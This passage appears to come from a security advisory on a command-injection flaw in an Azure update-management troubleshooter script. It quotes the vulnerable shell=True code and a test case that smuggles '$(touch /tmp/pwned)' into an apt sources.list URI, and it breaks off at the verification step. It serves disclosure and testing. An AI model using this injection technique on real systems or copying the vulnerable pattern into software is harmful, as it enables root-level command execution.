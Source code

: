 * Preconditions:
    - The attacker must have write access to the repository configuration files on the target Linux system. This could be achieved through various means, such as exploiting other vulnerabilities, social engineering, or insider access.
    - The administrator must execute the `UM_Linux_Troubleshooter_Offline.py` script using `sudo`, as instructed in the project's README file.

* Source Code Analysis:
    - The vulnerability lies in the `RepositoryManager.pingEndpoint` function and the `RepositoryManager.executeCommand` function.

    ```python
    def RepositoryManager.pingEndpoint(self, uri):
        unixCmd = "curl --head " + uri  # [VULNERABLE LINE] URI is directly concatenated into the shell command.
        try:
            (out, err) = self.executeCommand(unixCmd) # Executes the command with shell=True
            ...
        except Exception as e:
            ...

    def RepositoryManager.executeCommand(self, unixCmd):
        proc = subprocess.Popen(unixCmd,      # [VULNERABLE LINE] unixCmd is executed by shell.
                                stdin = subprocess.PIPE,
                                stdout = subprocess.PIPE,
                                stderr = subprocess.PIPE,
                                shell=True      # shell=True enables shell command injection.
                            )
        (out, err) = proc.communicate()
        return (out.decode('utf8', 'ignore'), err.decode('utf8', 'ignore'))
    ```
    - In `pingEndpoint`, the `uri` variable, which is derived from system repository configurations, is directly concatenated into the `curl` command string.
    - The `executeCommand` function then executes this command string using `subprocess.Popen` with `shell=True`. This construction allows shell metacharacters within the `uri` to be interpreted and executed as shell commands, leading to command injection.

* Security Test Case:
    1. **Environment Setup:** Set up a test Ubuntu machine where you have `sudo` privileges.
    2. **Modify Repository Configuration:**
        - Edit the `/etc/apt/sources.list` file using `sudo nano /etc/apt/sources.list` (or your preferred editor with sudo).
        - Add the following line to the file. This line injects a command to create a file `/tmp/pwned` when the URL is processed:
          ```
          deb http://`"`$(touch /tmp/pwned)`"` archive.ubuntu.com/ubuntu focal main restricted universe multiverse
          ```
          *(Note: Replace `archive.ubuntu.com/ubuntu focal main restricted universe multiverse` with a valid repository if needed to avoid apt errors, the crucial part is the injected command `$(touch /tmp/pwned)`)*
        - Save the changes and exit the editor.
    3. **Download the Script:** Download the `UM_Linux_Troubleshooter_Offline.py` script to the test machine using `wget`:
       ```bash
       sudo wget https://raw.githubusercontent.com/Azure/updatemanagement/main/UM_Linux_Troubleshooter_Offline.py
       ```
    4. **Execute the Script:** Run the downloaded script using `sudo`:
       ```bash
       sudo python UM_Linux_Troubleshooter_Offline.py
       ```
    5. **Verify Command Injection:** After the script execution completes, check if the file `/tmp/pwned` has been created.
       ```bash